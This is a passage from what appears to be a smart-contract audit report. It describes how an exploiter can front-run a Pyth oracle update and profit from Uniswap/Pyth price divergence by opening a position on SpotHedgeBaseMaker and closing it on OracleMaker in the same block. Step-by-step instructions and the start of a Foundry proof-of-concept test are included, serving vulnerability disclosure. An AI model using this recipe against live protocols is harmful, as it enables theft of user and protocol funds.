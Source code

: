 Given these two facts, when the Uniswap price diverges from pyth price an exploiter can perform the following flow:

Example:  
A. Starting state: Eth/USDT market where both the uniswap pool and pyth oracle price are $2000  
B. A pyth update transaction is in the mempool, updating the price to 2% below the current price.  
C. An exploiter sees the transaction and sends a transaction to follow it with the following operations:  
C.1. Open a short position on SpotHedgeBaseMaker with size 110eth. (the exact optimal amount can be calculated ahead, to work out the tradeoff between the increase in  profit due to a large trade, and decrease in profit due to more slippage on Uniswap)  
C.2. Close the position (entirely) on the oracle maker.  
C.3. Withdraw profits  

Cost: Because the trader opens and closes the position within the same block, there are no added costs from borrowing/funding fees, since these depend on time elapsing while the position is open. Therefore the only cost is the loss from the price spread between the opened position and the closed one. These depend in turn on the oracle maker utilization rate (which determines its price spread) and the Uniswap pool liquidity (which determines the slippage that determines the SpotHedge maker's quote).

When the uniswap pool liquidity is high and the oracle maker utilization is low, small price differences can generate a significant profit, as the POC below shows.


### POC
To run:  
A. create a test.sol file under the perp-contract-v3/test/spotHedgeMaker/ folder and add the code below to it.
B. Run forge test --match-test testPriceDivergencePOC -vv

```solidity
// SPDX-License-Identifier: GPL-3.0-or-later
pragma solidity >=0.8.0;

import "forge-std/Test.sol";
import "../spotHedgeMaker/SpotHedgeBaseMakerForkSetup.sol";
import { OracleMaker } from "../../src/maker/OracleMaker.sol";
import "../../src/common/LibFormatter.sol";
import { SignedMath } from "@openzeppelin/contracts/utils/math/SignedMath.sol";

contract priceDivergence is SpotHedgeBaseMakerForkSetup {

    using LibFormatter for int256;
    using LibFormatter for uint256;
    using SignedMath for int256;

    //address public taker = makeAddr("Taker");
    address public exploiter = makeAddr("Exploiter");
    OracleMaker public oracle_maker;

    function setUp() public override {
        super.setUp();
        oracle_maker = new OracleMaker();
        _enableInitialize(address(oracle_maker));
        oracle_maker.initialize(marketId, "OM", "OM", address(addressManager), priceFeedId, 1e18);
        config.registerMaker(marketId, address(oracle_maker));

        //PARAMETERS SETUP

        //fee setup
        //funding fee configs (taken from team tests) 
       config.setFundingConfig(marketId, 0.005e18, 1.3e18, address(oracle_maker));
        //borrowing fee 0.00000001 per second as in team tests
        config.setMaxBorrowingFeeRate(marketId, 10000000000, 10000000000);
        oracle_maker.setMaxSpreadRatio(0.1 ether); // 10% as in team tests
```